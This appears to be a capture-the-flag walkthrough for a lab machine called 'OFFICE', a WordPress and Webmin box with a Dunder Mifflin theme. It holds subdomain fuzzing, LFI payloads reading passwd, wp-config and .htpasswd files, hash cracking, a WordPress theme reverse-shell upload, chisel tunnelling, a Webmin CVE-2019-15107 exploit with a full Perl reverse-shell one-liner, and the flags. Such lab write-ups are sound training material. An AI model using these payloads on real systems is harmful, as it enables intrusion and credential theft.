# OFFICE



## NMAP SCAN

```text
PORT      STATE    SERVICE          REASON         VERSION
22/tcp    open     ssh              syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http             syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US/localityName=Scranton/emailAddress=dwight@office.csl
| Issuer: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US/localityName=Scranton/emailAddress=dwight@office.csl
10000/tcp filtered snet-sensor-mgmt no-response
```

## PORT 80 ENUMERATION






* MUST ADD OFFICE.CSL TO OUR HOSTS
* NEED TO FIND A SUBDOMAIN
* USERS FOUND

  ```text
  Dwight
  Jim
  ```

  **SUBDOMAIN**

```text
wfuzz --hw 1922 -u http://office.csl -H "Host: FUZZ.office.csl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

```text
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                           
=====================================================================

000000001:   301        0 L      0 W        0 Ch        "www"                                                                                                             
000000023:   200        297 L    706 W      8773 Ch     "forum"                                                                                                           
000000689:   400        12 L     53 W       423 Ch      "gc._msdcs"                                                                                                       
000009532:   400        12 L     53 W       423 Ch      "#www"                                                                                                            
000010581:   400        12 L     53 W       423 Ch      "#mail"
```

* ADD FORUM.OFFICE.CSL TO YOUR HOSTS




* MORE USERS

  ```text
  Meredith
  Andy
  Phyllis
  Oscar
  Kevin
  Angela
  Jim
  Stanley
  Kelly
  Creed
  ```

* IMPORTANT MESSAGES \(MAYBE\)

```text
Creed, why is your name set to "William Charles Schnider"?

Dwight, enter your password in the doomsday device and stop the application

(DWIGHT)No you didn't, you spent all day trying to guess my password to stop the accountibility booster!

(JIM)I managed to forward the doomsday portal to localhost on my account.

Try moes1234

Dwight would never be that obvious, try something like z64$8
```

* /CHATLOGS



## LFI



### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
ryan:x:1000:1000:ryan:/home/ryan:/bin/bash
dwight:x:1001:1001:Dwight Schrute,,,:/home/dwight:/bin/bash
```

### PHP FILTER TO GET WP CREDS

```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```



```text
wp_user:password
```

### NO ID\_RSA OF USERS

### LOGIN.PHP

```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=php://filter/convert.base64-encode/resource=/var/www/html/forum/login/login.php
```

??? CODE IN LOGIN.PHP

```text
integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
```

### FORUM/.HTPASSWD

```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=/var/www/html/forum/.htpasswd
```

#### CREDS

```text
dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/
```

## CRACKING HASH WITH HASHCAT

```text
echo '$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/' > hash
```

```text
hashcat -m 1600 hash /opt/passwd/rockyou.txt
```

```text
$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/:cowboys1
```

```text
dwight:cowboys1
```

## LOGIN WORDPRESS



### MAYBE SOME WAY OF GET THE EMAILS DESCRIBED IN FORUM? 

```text
dwight@office.csl
```

## GET SHELL

### UPLOAD REVERSE SHELL \( I USED TWENTY NINETEEN THEME TO BYPASS\)



```text
http://office.csl/wp-content/themes/twentynineteen/404.php
```



## LATERAL MOVEMENT



## LINPEAS FINDINGS

```text
SUDO VERSION 1.8.21p2
```

```text
127.0.0.1:3306
0.0.0.0:10000
```

```text
/home/dwight/.gnupg/pubring.kbx
/home/dwight/.gnupg/trustdb.gpg
/home/dwight/.config/lxc/config.yml
```

## 127.0.0.1:10000

### USING CHISEL

* MY MACHINE

```text
chisel server -p 9050 --reverse
```

* VICTIM

```text
./chisel client 10.10.0.63:9050 R:10000:127.0.0.1:10000
```

```text
NOW I CAN BROWSE TO 127.0.0.1:10000
```

### WEBMIN





### CONFIRMING THE VERSION



## EXPLOIT \( 3WAYS \)

### METASPLOIT



### WITHOUT METASPLOIT \(PYTHON SCRIPT\)

* [https://github.com/ruthvikvegunta/CVE-2019-15107](https://github.com/ruthvikvegunta/CVE-2019-15107)



### WITH BURP \(MANUAL\)

```text
perl -e 'use Socket;$i="10.10.0.63";$p=5314;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Don't forget to URL ENCODE





## FLAGS

### USER

```text
57c2cf33a9ccd059141afd8ad2a35519
```

### ROOT

```text
39bd97013feb7508923ed8ace6fe6130
```

